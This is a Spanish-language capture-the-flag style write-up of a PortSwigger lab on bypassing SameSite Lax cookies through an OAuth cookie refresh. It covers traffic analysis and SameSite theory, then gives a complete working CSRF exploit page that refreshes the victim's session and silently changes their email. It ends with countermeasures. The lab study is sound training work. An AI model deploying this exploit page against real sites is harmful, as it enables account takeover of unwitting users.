





# Writeup: SameSite Lax bypass via cookie refresh (PortSwigger)

- **Lab**: SameSite Lax bypass via cookie refresh
- **URL**: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
- **Categoría**: CSRF → Bypassing SameSite cookie restrictions
- **Dificultad**: Practitioner
- **Credenciales**: `wiener:peter`

> Nota: el slug de la URL contiene `strict`, pero el título real del lab es **"SameSite Lax bypass via cookie refresh"**.

---

## 1. Objetivo

La funcionalidad de cambio de correo electrónico de este lab es vulnerable a CSRF. Para resolver el lab, realiza un ataque CSRF que cambie la dirección de correo de la víctima. Debes usar el exploit server proporcionado para alojar tu ataque.

El lab soporta login basado en OAuth. Puedes iniciar sesión a través de tu cuenta de redes sociales con las siguientes credenciales: `wiener:peter`.

> **Nota**: Las restricciones SameSite por defecto difieren entre navegadores. Como la víctima usa Chrome, recomendamos usar también Chrome (o el navegador Chromium integrado de Burp) para probar tu exploit.

---

## 2. Reconocimiento — observando el flujo de login

Antes de pensar en el ataque, hay que entender qué pasa cuando un usuario legítimo se loguea con `wiener:peter`. Capturamos el tráfico con Burp y exportamos el history a `http_history.xml`.

### 2.1 Línea de tiempo (orden cronológico)

```
22:25:28  GET  LAB/my-account                              → 302 a /social-login
22:25:29  GET  LAB/social-login                            → redirige cross-site
22:25:32  GET  OAUTH/auth?client_id=…&redirect_uri=…       → 302 a /interaction/{id}
22:25:33  GET  OAUTH/interaction/{id}                      → 200 (form de login)
22:25:55  POST OAUTH/interaction/{id}/login                ← AQUÍ van wiener:peter
22:25:56  GET  OAUTH/auth/{id}                             → 302
22:25:56  GET  OAUTH/interaction/{id}                      → 200 (pantalla "confirm")
22:26:19  POST OAUTH/interaction/{id}/confirm              → 302
22:26:20  GET  OAUTH/auth/{id}                             → 302 a LAB/oauth-callback
22:26:20  GET  LAB/oauth-callback?code=…                   → 200  ← LAB EMITE COOKIE
22:26:34  GET  LAB/                                        → ya autenticado
```

Donde:
- `LAB`  = `0a2e006003d1d8bb805f5dc7006e00f9.web-security-academy.net`
- `OAUTH` = `oauth-0a1100850360d84780b85bd1021300fb.oauth-server.net`

### 2.2 Diagrama de secuencia



Lo que el diagrama hace evidente:

- **Pasos 5-6**: el salto `LAB → OAUTH` es cross-site (distinto eTLD+1).
- **Paso 9**: las credenciales se POSTean al OAuth server, no al lab.
- **Pasos 6-19**: durante todo el flujo, las cookies del OAuth server (`_session=None`) le permiten reconocer a la víctima sin importar quién inicie el flujo.
- **Paso 21**: el lab emite una cookie `session` **nueva** sin `SameSite` → Chrome la trata como `Lax` y arranca la ventana de 2 minutos (Lax+POST). Este es el primitivo que vamos a abusar.

### 2.3 Cinco observaciones clave

#### (1) Hay dos sitios distintos, no uno

`web-security-academy.net` y `oauth-server.net` son **eTLD+1 distintos** → todo el tráfico entre el lab y el OAuth server es **cross-site**. Esto es lo que hace que el lab sea un OAuth real (no un mock interno) y abre la puerta al "refresh trick".

Evidencia: cuando el lab inicia el OAuth dance, el navegador hace un GET top-level a `oauth-server.net`. Chrome lo marca como `Sec-Fetch-Site: cross-site`:

```http
GET /auth?client_id=w6kg4n19mdl1meam1l1jz
        &redirect_uri=https://0a2e006003d1d8bb805f5dc7006e00f9.web-security-academy.net/oauth-callback
        &response_type=code
        &scope=openid%20profile%20email HTTP/2
Host: oauth-0a1100850360d84780b85bd1021300fb.oauth-server.net
Sec-Fetch-Site: cross-site
Referer: https://0a2e006003d1d8bb805f5dc7006e00f9.web-security-academy.net/
```

> 📘 **Concepto: eTLD+1**
>
> - **TLD** (Top-Level Domain): `.com`, `.net`, `.uk`. La última parte del dominio.
> - **eTLD** (effective TLD, o "Public Suffix"): el sufijo más largo bajo el cual cualquiera puede registrar un dominio. Ejemplo: `.co.uk` es eTLD porque cualquiera registra `algo.co.uk`. Lista oficial en https://publicsuffix.org/.
> - **eTLD+1**: el eTLD más una etiqueta a la izquierda. Es el dominio "registrable".
>
> | Dominio | eTLD | eTLD+1 |
> |---|---|---|
> | `www.bbc.co.uk` | `co.uk` | `bbc.co.uk` |
> | `mail.google.com` | `com` | `google.com` |
> | `lab-id.web-security-academy.net` | `net` | `web-security-academy.net` |
> | `oauth-id.oauth-server.net` | `net` | `oauth-server.net` |
>
> Dos URLs son **same-site** si comparten eTLD+1 (y esquema). En este lab, lab y OAuth server tienen eTLD+1 distintos → son cross-site.
>
> ⚠️ **Same-site ≠ same-origin**: same-origin exige `esquema://host:puerto` exacto; same-site solo exige mismo eTLD+1. `mail.google.com` y `accounts.google.com` son same-site pero NO same-origin.

#### (2) Las credenciales nunca tocan el lab

El `POST /interaction/{id}/login` con `wiener:peter` va al **OAuth server**, no al lab. El lab solo recibe un `code` al final (`/oauth-callback?code=…`) que canjea por la identidad del usuario.

Evidencia (request real del history):

```http
POST /interaction/Tltne5-QhFO6z1H5-AlmV/login HTTP/2
Host: oauth-0a1100850360d84780b85bd1021300fb.oauth-server.net
Origin: https://oauth-0a1100850360d84780b85bd1021300fb.oauth-server.net
Content-Type: application/x-www-form-urlencoded
Cookie: _interaction=Tltne5-QhFO6z1H5-AlmV

username=wiener&password=peter
```

→ `Host` es el OAuth server, no el lab. El lab nunca ve la contraseña.

**Implicación para el ataque**: la víctima ya está autenticada en `oauth-server.net`. Si forzamos un nuevo `/social-login`, el OAuth server la reconocerá silenciosamente y devolverá un nuevo `code` al lab — **sin pedir contraseña** y sin que la víctima lo note.

#### (3) El lab NO especifica `SameSite` en su cookie de sesión

Respuesta completa de `GET /oauth-callback?code=…` (recortada a las cabeceras relevantes):

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u3gSCAltdriEQgWDhqw9trnljjA6zPpS;
            Expires=Thu, 30 Apr 2026 03:26:21 UTC;
            Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
```

Falta el atributo `SameSite=…`. Cuando no aparece, **Chrome aplica `Lax` por defecto** (otros navegadores difieren — por eso el lab pide explícitamente Chrome).

#### (4) La cookie del lab cambia tras cada OAuth — el "refresh" confirmado

Antes del callback (cookie vieja):

```http
GET /oauth-callback?code=ZLnhQHt6szu59QAJkTLq5HDJ1zTKcGd9PTZyU0wbCaf HTTP/2
Host: 0a2e006003d1d8bb805f5dc7006e00f9.web-security-academy.net
Cookie: session=iH3pmcn9LJKKsUqXgWs98gwem639JeZC          ← vieja
```

Respuesta del callback (cookie nueva):

```http
HTTP/2 200 OK
Set-Cookie: session=u3gSCAltdriEQgWDhqw9trnljjA6zPpS; ... ← nueva
```

Después del callback (el navegador ya envía la nueva en la siguiente request):

```http
GET / HTTP/2
Host: 0a2e006003d1d8bb805f5dc7006e00f9.web-security-academy.net
Cookie: session=u3gSCAltdriEQgWDhqw9trnljjA6zPpS          ← nueva
```

Cada vez que se completa un flujo OAuth, el lab tira la cookie vieja y emite una nueva. Este es **literalmente el "cookie refresh" del título del lab**.

#### (5) Las cookies del OAuth server son `SameSite=None`

Respuesta de `GET /auth?client_id=…` en `oauth-server.net`:

```http
HTTP/2 302 Found
Set-Cookie: _interaction=Tltne5-QhFO6z1H5-AlmV;
            path=/interaction/Tltne5-QhFO6z1H5-AlmV;
            expires=Wed, 29 Apr 2026 03:35:33 GMT;
            samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=Tltne5-QhFO6z1H5-AlmV;
            path=/auth/Tltne5-QhFO6z1H5-AlmV;
            samesite=lax; secure; httponly
Location: /interaction/Tltne5-QhFO6z1H5-AlmV
```

Y, más arriba en el flujo (visto en otra respuesta del OAuth server):

```http
Set-Cookie: _session=hXufPJtSWw6Ql1Z3dPOve;
            path=/; expires=Wed, 13 May 2026 03:26:20 GMT;
            samesite=none; secure; httponly
```

`_session` con `SameSite=None` viaja en cualquier contexto, incluso si el OAuth flow se inicia desde un sitio atacante. Por eso el OAuth server reconoce a la víctima sin reautenticarla. Si esta cookie fuera `Strict` o `Lax`, el "refresh trick" no funcionaría.

### 2.4 Idea del ataque (en una frase)

Si conseguimos que el navegador de la víctima **(a)** dispare un OAuth flow contra `oauth-server.net` (que la reconocerá silenciosamente y emitirá una `session` fresca en el lab) y **(b)** justo después envíe un `POST /my-account/change-email` cross-site, el ataque pasará — porque la cookie tiene menos de 2 minutos.

> *Por qué los "2 minutos" importan se explica en la sección de SameSite, más adelante.*

---

## 3. Qué es CSRF

**CSRF** = *Cross-Site Request Forgery*. La idea: engañar al navegador de la víctima para que envíe una petición autenticada a un sitio donde está logueada, sin que ella lo sepa.

### Por qué funciona

El navegador adjunta automáticamente las cookies del dominio de destino en **toda** petición a ese dominio, sin importar quién la origine. Si tienes una `session` válida en `banco.com`, da igual si la petición sale desde:

- `banco.com/transferir` (legítimo)
- `evil.net` con un `<form action="https://banco.com/transferir">` (malicioso)

En ambos casos el navegador adjunta la cookie. El servidor recibe una petición "válida" y la procesa.

### Los 3 ingredientes que necesita un CSRF

Para que un endpoint sea vulnerable, deben darse las 3:

1. **Acción relevante**: el endpoint hace algo que al atacante le interesa (cambiar email, transferir fondos, eliminar cuenta, etc.).
2. **Autenticación basada en cookies**: el servidor identifica al usuario solo por la cookie de sesión (no por un header `Authorization`, ni por un token en el body).
3. **Parámetros predecibles**: el atacante puede construir la petición completa sin información secreta de la víctima (no hay token CSRF, no hay nonce sincronizado, etc.).

Si falta cualquiera de las 3, no hay CSRF.

### Aplicado al lab — verificación con la petición real

Capturamos la petición legítima de cambio de email en `change-email.xml`:

```http
POST /my-account/change-email HTTP/2
Host: 0a04003404ee2768801d1c97001f00d9.web-security-academy.net
Cookie: session=KkmDk8ZPDsgYYzQkwL31BcnHklXwUMH8
Origin: https://0a04003404ee2768801d1c97001f00d9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Site: same-origin
Content-Length: 31

email=wiener1%40normal-user.net
```

Respuesta: `HTTP/2 302 Found` → `Location: /my-account?id=wiener`. El cambio se aplicó.

> Nota: el lab ID cambió respecto al `http_history.xml` original (los labs de PortSwigger se reinstancian). No afecta al análisis.

Verificación de los 3 ingredientes:

- ✅ **Acción relevante**: cambia el email. Si apunta a un email del atacante, puede usar "olvidé mi contraseña" para tomar la cuenta.
- ✅ **Auth solo por cookie**: la única credencial en el request es `Cookie: session=…`. No hay `Authorization`, no hay headers custom (`X-Csrf-Token`, `X-Requested-With`, etc.), no hay token en el body.
- ✅ **Parámetros predecibles**: el body es solo `email=…`. Sin `csrf_token`, sin nonce, sin ningún valor secreto.

→ **El endpoint es 100% vulnerable a CSRF teórico**.

### Detalle: la petición es un "simple request"

Dos cabeceras del request legítimo que importan para el ataque:

- **`Content-Type: application/x-www-form-urlencoded`** — es lo que un `<form>` HTML normal genera. Es un *simple request* (no requiere CORS preflight). Significa que un form HTML puro desde otro sitio puede replicarlo, sin necesidad de `fetch()` ni nada exótico.
- **`Sec-Fetch-Site: same-origin`** — aquí porque lo enviamos desde el propio lab. Cuando llegue desde el sitio atacante, este header pasará a `cross-site`, y ahí entra `SameSite` a actuar.

### PoC CSRF "clásico"

Si las 3 condiciones se cumplen, el ataque es trivial. El atacante aloja en `evil.net` un HTML así:

```html
<html>
  <body>
    <form action="https://lab.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@evil.net">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

La víctima visita `evil.net`. El JS auto-envía el form. El navegador hace `POST` a `lab.web-security-academy.net` adjuntando la cookie `session` que tiene guardada. El lab procesa el cambio.

---

## 4. Por qué este lab no es un CSRF "clásico"

`SameSite` está diseñado precisamente para romper el ingrediente #2 en peticiones cross-site: si el navegador no manda la cookie en el `POST` cross-site, el servidor ve una petición sin autenticar y la rechaza.

```
Set-Cookie: session=…; Expires=…; Secure; HttpOnly      ← sin SameSite
                                                          ↓
                                         Chrome aplica SameSite=Lax por defecto
                                                          ↓
                                  Bloquea la cookie en POST cross-site
```

Por eso el lab se llama "**bypass** SameSite Lax". El CSRF teórico está ahí, pero `SameSite=Lax` lo bloquea por defecto. Necesitamos un truco para que la cookie sí viaje. Eso es lo que veremos en la siguiente sección.

---

## 5. SameSite — qué bloquea y qué deja pasar

`SameSite` es un atributo del `Set-Cookie` que le dice al navegador **en qué peticiones cross-site puede adjuntar la cookie**. Tiene 3 modos.

### 5.1 Los 3 modos

| Modo | Comportamiento |
|---|---|
| `Strict` | La cookie **nunca** se envía en peticiones cross-site. Ni en navegación top-level, ni en subrecursos. Es el más seguro pero rompe UX (si alguien te manda un link a `https://lab.com`, llegas deslogueado). |
| `Lax` | La cookie se envía **solo** en peticiones cross-site que sean **navegación top-level** y usen un método "seguro" (GET, HEAD, OPTIONS). Bloquea POST, PUT, DELETE cross-site, y bloquea cualquier subrecurso (img, script, iframe, fetch). |
| `None` | La cookie se envía **siempre**, incluso en peticiones cross-site. Requiere `Secure` (solo HTTPS). |

### 5.2 Aplicado a nuestro CSRF

Recordando el ataque ingenuo de la sección 3:

```html
<form action="https://lab.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@evil.net">
</form>
<script>document.forms[0].submit();</script>
```

Esto genera un **POST cross-site** con navegación top-level. ¿Qué hace cada modo?

| Modo del lab | ¿Cookie viaja? | ¿Funciona el CSRF? |
|---|---|---|
| `Strict` | ❌ Nunca cross-site | ❌ |
| `Lax` | ❌ Cross-site solo en GET/HEAD/OPTIONS | ❌ |
| `None` | ✅ Siempre | ✅ |

El lab no fija `SameSite`, así que Chrome aplica `Lax` por defecto → **el CSRF teórico está bloqueado**.

### 5.3 La trampa: la excepción **Lax+POST** de Chrome

Chromium tiene una excepción **no estándar** y poco documentada al modo `Lax`:

> Si una cookie **no fija explícitamente `SameSite`** (es decir, falta el atributo en el `Set-Cookie`), durante los **primeros ~120 segundos** desde que se emitió, Chrome **sí la envía en POST cross-site top-level**. Pasados esos 2 minutos, vuelve al comportamiento `Lax` puro.

Esto se llama "**Lax+POST**" o "**2-minute Lax window**". La razón histórica: Chrome introdujo `SameSite=Lax` por defecto en 2020, pero muchos sitios usaban POST cross-site para flujos legítimos (logins federados, pagos). Para no romperlos de golpe, Chrome dejó esta ventana de gracia. Sigue ahí hoy en día.

> ⚠️ **Importante**: la excepción solo aplica si la cookie **no tiene `SameSite=…` explícito**. Si el servidor escribiera `Set-Cookie: session=…; SameSite=Lax`, no habría ventana de 2 min — sería Lax puro desde el segundo cero.

El lab cumple esta condición exacta:

```
Set-Cookie: session=u3gSCAltdriEQgWDhqw9trnljjA6zPpS;
            Expires=…; Secure; HttpOnly       ← sin SameSite
```

→ Cada cookie del lab tiene 2 minutos de "vulnerabilidad" desde que se emite.

### 5.4 Cómo obtener una cookie "fresca" durante el ataque

Aquí encaja la observación 4 del recon: el lab **emite una cookie nueva cada vez que se completa un flujo OAuth** (en `GET /oauth-callback?code=…`). Si conseguimos que la víctima dispare el flujo OAuth desde el sitio atacante, su cookie del lab se renueva → ventana de 2 min reiniciada → podemos lanzar el POST cross-site dentro de esa ventana → CSRF exitoso.

### 5.5 CSRF ingenuo vs CSRF con refresh

**Caso A — CSRF ingenuo (cookie vieja, más de 2 min):**



**Caso B — CSRF con refresh (cookie recién emitida):**



### 5.6 Resumen — todas las piezas

1. **CSRF teórico** posible (3 ingredientes confirmados).
2. **SameSite Lax** es lo único que lo bloquea normalmente.
3. **Lax+POST** = ventana de 2 min en Chrome cuando la cookie no tiene `SameSite` explícito.
4. **`/social-login`** + OAuth con `_session=None` = primitivo para refrescar la cookie del lab silenciosamente.

---

## 6. Construcción del exploit, paso a paso

Vamos a construirlo en 4 versiones, cada una añade lo que le falta a la anterior.

### 6.1 V1 — El intento ingenuo

```html
<form action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@exploit-server.net">
</form>
<script>document.forms[0].submit();</script>
```

**Por qué falla**: la cookie del lab que tiene la víctima en su navegador puede tener horas o días de vida (`Expires=…` apunta a 24h después). Está fuera de la ventana de 2 min de Lax+POST → Chrome no adjunta la cookie → el lab rechaza el POST.

**Lo que falta**: forzar a la víctima a renovar su cookie disparando el OAuth flow antes del POST.

### 6.2 V2 — Añadimos el refresh

```html
<form id="csrf" action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@exploit-server.net">
</form>

<script>
  // 1. Renovar la cookie del lab disparando el OAuth flow.
  window.open('https://LAB.web-security-academy.net/social-login');

  // 2. Esperar 5s a que el flujo OAuth complete y disparar el POST.
  setTimeout(() => {
    document.getElementById('csrf').submit();
  }, 5000);
</script>
```

**Por qué falla**: `window.open()` está bloqueado por defecto si no se ejecuta en respuesta a una interacción del usuario. El popup blocker de Chrome devuelve `null` → el OAuth flow nunca arranca → cuando llega el `setTimeout` la cookie sigue vieja.

**Lo que falta**: ejecutar `window.open` dentro de un handler de click para que el navegador lo permita.

### 6.3 V3 — Vinculamos el `window.open` a un click

```html
<form id="csrf" action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@exploit-server.net">
  <input type="submit" value="Click me">
</form>

<script>
  document.getElementById('csrf').addEventListener('click', () => {
    window.open('https://LAB.web-security-academy.net/social-login');
    setTimeout(() => {
      document.getElementById('csrf').submit();
    }, 5000);
  });
</script>
```

**Por qué casi funciona**: con un humano que hace click manualmente, todo el flujo se completa correctamente. El click es interacción real → `window.open` permitido → cookie refrescada → POST dentro de los 2 min.

**Por qué no resuelve el lab**: la víctima del lab es un bot Chrome headless que **no hace click espontáneamente** en los elementos de la página. Necesitamos disparar el click programáticamente al cargar.

### 6.4 V4 — Click programático al cargar (versión final)

```html
<form id="csrf" action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@exploit-server.net">
  <input type="submit" value="Click me">
</form>

<script>
  document.getElementById('csrf').addEventListener('click', () => {
    window.open('https://LAB.web-security-academy.net/social-login');
    setTimeout(() => {
      document.getElementById('csrf').submit();
    }, 5000);
  });

  window.onload = () => document.getElementById('csrf').click();
</script>
```

Lo único que cambia: la última línea, que dispara `click()` programáticamente cuando el bot termina de cargar la página. El handler de click ejecuta `window.open` (permitido en este contexto) y programa el `submit()` 5s después.

### 6.5 Resumen comparativo

| Versión | ¿Cookie viaja? | Por qué |
|---|---|---|
| V1 (form puro) | ❌ | Cookie vieja, fuera de la ventana de 2 min |
| V2 (form + auto-open) | ❌ | `window.open` bloqueado por popup blocker |
| V3 (form + click manual) | ⚠️ | Funciona con humano, no con bot |
| V4 (form + click programático) | ✅ | Bot ejecuta el click → window.open permitido → cookie refrescada → POST dentro de los 2 min |

### 6.6 Diagrama de secuencia del exploit (V4)



---

## 7. Entrega y prueba

1. Loguéate en el lab como `wiener:peter`.
2. Click en **Go to exploit server**.
3. Pega el HTML de V4 en el campo **Body**, reemplazando `LAB` por el subdominio actual del lab.
4. Reemplaza `pwned@exploit-server.net` por un email único (no uses uno ya probado, el lab los rechaza).
5. **Store** → **View exploit** para verificar que carga sin errores.
6. Vuelve al exploit server → **Deliver exploit to victim**.
7. El bot ejecuta la cadena → lab marcado como **Solved**.

### 7.1 Troubleshooting

| Síntoma | Causa probable | Solución |
|---|---|---|
| Lab no se resuelve, sin cambio aparente | El bot no completó el OAuth en 5s | Subir el `setTimeout` a 8000 o 10000 ms |
| Respuesta `Email already in use` | Ya usaste ese email antes | Cambiar a otro único |
| POST sale sin cookie | Pasaron más de 2 min entre `window.open` y `submit` | Verificar que el `setTimeout` no sea demasiado largo (máx ~110 s) |
| `window.open` devuelve `null` en local | Popup blocker activo en tu Chrome | Solo afecta tus pruebas locales — el bot del lab no tiene popup blocker |

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **Tokens anti-CSRF** sincronizados por sesión, validados server-side en cada request que cambie estado. Es la defensa principal — `SameSite` es defensa en profundidad, no sustituto.
2. **Setear `SameSite` explícitamente** en el `Set-Cookie`. Si el lab usara `SameSite=Lax` o `SameSite=Strict`, no habría ventana Lax+POST y el ataque no funcionaría.
3. **Validar `Origin` / `Referer`** en endpoints sensibles. En este lab el `Origin` legítimo es el propio lab; cualquier otro debería rechazarse.
4. **Re-autenticación o step-up auth** para acciones críticas (cambio de email, contraseña, transferencias).
5. **No emitir cookies de sesión nuevas** en endpoints navegables sin gesto explícito del usuario. Eliminar el "refresh" automático rompería el primitivo del ataque.

## 9. Resultado

Lab resuelto al primer intento con la versión V4 del exploit.



Notas finales del run real:
- `setTimeout` de 5000 ms fue suficiente — el OAuth flow termina en 1-2 s contra los servidores de PortSwigger.
- El email usado en el payload (`pwned@exploit-server.net`) es único — recordar cambiarlo si re-ejecutas el lab.

## 10. Referencias

